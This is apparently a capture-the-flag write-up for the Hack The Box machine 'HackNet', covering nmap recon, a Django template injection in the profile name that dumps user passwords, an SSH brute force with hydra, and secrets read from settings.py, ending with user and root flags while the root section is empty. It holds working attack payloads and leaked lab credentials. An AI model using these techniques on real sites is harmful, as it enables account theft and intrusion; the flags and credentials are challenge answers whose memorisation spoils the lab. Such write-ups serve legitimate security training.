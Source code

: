 ```yaml
---
layout: default
title: HackNet
---
```


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oN nmap.txt
```

![nmap results](image.png)

we can see port `22` for `ssh` and port `80` for `nginx`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `hacknet.htb` to our `/etc/hosts`:
```bash
10.10.11.85     hacknet.htb
```

### Exploiting SSTI to get IDOR which gives password for users

I scanned the whole pages, I tried to upload webshell for a while but for some reason it didn't work.
Later, i understood this is python framework behind the scenes, more specific `Django` framework, so it simply not executing `php` files.

So, i kept looking for vulnerabilities, until i noticed `SSTI` vulnerability.

First I set my name to {% raw %}{{7*7}}{% endraw %} 

![edit profile first](image-1.png)

Then, i want to http://hacknet.htb/explore, and put like to the first user i saw, in this case "glitch".
After putting like, i clicked the "likes" to see who put likes over this post, and saw that something went wrong.

![something went wrong](image-2.png)

I tried different payloads from https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python, to detect exactly what is the framework behind the scenes.

![payload all the things](image-3.png)

I tried `ih0vr{{364|add:733}}d121r`, and got back `ih0vr1097d121r`, which is pointing over `Django` framework behind the scenes.

![SSTI django](image-4.png)

The problem with that is that `DTL`, or `Django Template Langauge` is very strict, so i can't execute commands at all, or even include variables that are globals.
The only thing i can do is to include variables that are in context, which means the Template Engine uses on run.

First, i tried the `users` variable, because it probably exists, something that holds all the users on the page, to print their attributes and use their image. I sent this payload: {% raw %}{{ users }}{% endraw %}:

I got back this response:

![response](image-5.png)

Which after html decoding gave me:
```py
<QuerySet [<SocialUser: hexhunter>, <SocialUser: rootbreaker>, <SocialUser: netninja>, <SocialUser: shadowmancer>, <SocialUser: stealth_hawk>, <SocialUser: virus_viper>, <SocialUser: brute_force>, <SocialUser: {{ users.values }}>, <SocialUser: {{ users }}>]>
```

Okay, let's get the values, using {% raw %}{{ users.values }}{% endraw %}:

I got this long response:

![get users.values](image-6.png)

Which after decoding:
```py
<QuerySet [{'id': 2, 'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!', 'picture': '2.jpg', 'about': 'A seasoned reverse engineer specializing in binary exploitation. Loves diving into hex editors and uncovering hidden data.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 3, 'email': 'rootbreaker@exploitmail.net', 'username': 'rootbreaker', 'password': 'R00tBr3@ker#', 'picture': '3.jpg', 'about': 'Expert in privilege escalation and bypassing security measures. Always on the lookout for new zero-day vulnerabilities.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 13, 'email': 'netninja@hushmail.com', 'username': 'netninja', 'password': 'N3tN1nj@2024', 'picture': '13.png', 'about': 'Network security expert focused on intrusion detection and prevention. Known for slicing through firewalls with ease.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 16, 'email': 'shadowmancer@cypherx.com', 'username': 'shadowmancer', 'password': 'Sh@d0wM@ncer', 'picture': '16.png', 'about': 'A master of disguise in the digital world, using cloaking techniques and evasion tactics to remain unseen.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 20, 'email': 'stealth_hawk@exploitmail.net', 'username': 'stealth_hawk', 'password': 'St3@lthH@wk', 'picture': '20.jpg', 'about': 'Focuses on stealth operations, avoiding detection while infiltrating systems. A ghost in the machine.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 23, 'email': 'virus_viper@securemail.org', 'username': 'virus_viper', 'password': 'V!rusV!p3r2024', 'picture': '23.jpg', 'about': 'A malware creator focused on developing viruses that spread rapidly. Known for unleashing digital plagues.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 31, 'email': 'simple1@gmail.com', 'username': '{{ users.values }}\r\n', 'password': '1', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>
```

This basically gave me the usernames and passwords of all users that put like over this page!
For example, `'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!'`.

Now, we'll use this python script to fetch all passwords and usernames, notice in the case above, we want no the username, rather the left side if `hexhunter@ciphermail.com`, the name of the user from the mail:
```py
{% include_relative dump_credentials.py  %}
```

And we got this list:
```bash
blackhat_wolf:Bl@ckW0lfH@ck
brute_force:BrUt3F0rc3#
bytebandit:Byt3B@nd!t123
codebreaker:C0d3Br3@k!
cryptoraven:CrYptoR@ven42
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
datadive:D@taD1v3r
deepdive:D33pD!v3r
exploit_wizard:Expl01tW!zard
glitch:Gl1tchH@ckz
hexhunter:H3xHunt3r!
mikey:mYd4rks1dEisH3re
netninja:N3tN1nj@2024
packetpirate:P@ck3tP!rat3
phreaker:Phre@k3rH@ck
rootbreaker:R00tBr3@ker#
shadowcaster:Sh@d0wC@st!
shadowmancer:Sh@d0wM@ncer
shadowwalker:Sh@dowW@lk2024
stealth_hawk:St3@lthH@wk
trojanhorse:Tr0j@nH0rse!
virus_viper:V!rusV!p3r2024
whitehat:Wh!t3H@t2024
zero_day:Zer0D@yH@ck
```

Then, we can use hydra to trying all credentials:
```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ hydra -C credentials.txt hacknet.htb ssh   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-25 23:11:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-25 23:11:40
```
And we got valid credentials, `mikey \ mYd4rks1dEisH3re`

![ssh successful](image-7.png)

get the user flag:
```bash
mikey@hacknet:~$ cat user.txt 
8aae1b59fc1a16b621564434b4cb2eae
```

### ...... ?????

Inside `/var/www/HackNet/HackNet/settings.py`

I found this 
```py
SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'
```

and also this
```py
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}
```

Then i connect using `mysql` (show command), and fetch table from hacknet db auth_users, get hash and trying to crack him (not working bro).

### Privilege Escalation to Root


**User Flag:*****`8aae1b59fc1a16b621564434b4cb2eae`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
